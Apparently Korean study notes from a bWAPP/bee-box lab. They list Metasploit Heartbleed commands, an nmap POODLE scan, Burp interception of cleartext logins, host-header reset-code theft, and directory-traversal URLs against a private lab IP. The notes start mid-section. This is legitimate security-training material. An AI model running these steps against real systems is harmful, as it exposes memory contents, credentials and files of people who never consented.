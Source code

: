 	wireshark에서 볼 수 있는 형태로 출력
https://192.168.56.143:8443 로그인 정보 입력한 채로 heartbleed.py 실행
	계정정보가 노출될 가능성이 높음
msfconsole
search heartbleed
use auxiliary/scanner/ssl/openssl_heartbleed
set rhosts 192.168.56.143
set rport 8443
set verbose true
exploit
	heartbleed.py와 동일한 내용 출력
## POODLE Vulnerability
### security : low
nmap -sS -sV 192.168.56.143 -p 443 --script ssl-poodle -v
	State : vulnerable
	CVE-2014-3566 이용
## SSL 2.0 Deprecated Protocol
### security : low
O-Saft tool 이용
## Clear Text HTTP(Credentials)
### security : low
Plain Text = Clear Text = 평문
Cipher Text = 암호문
burp suite
intercept on
	bee/bug 입력한 값이 그대로 나타남
## Host Header Attack(Reset Poisoning)
### security : low
bee@beebox.com
burp suite
intercept on
Host : 여기에 정보를 수정해서 reset_code를 탈취 가능
## HTML5 Web Storage(secret)
### security : low
f12 -> storage -> Local Storage : login, secret 정보 확인 가능
페이지 소스에서도 확인 가능
## Text Files(Accounts)
### security : low
bee/bug 입력
The account was added!
Download the file
bWAPP/passwords/accounts.txt 에 입력한 계정들이 그대로 들어가있음
### security : medium
bWAPP/passwords/accounts.txt 에 password부분은 암호화되어 저장되어 있음.
## Directory Traversal - Directories
### security : low
페이지 소스 : `<a href="documents/~
http://192.168.56.143/bWAPP/directory_traversal_2.php?directory=../
http://192.168.56.143/bWAPP/directory_traversal_2.php?directory=../../../ : 최초 경로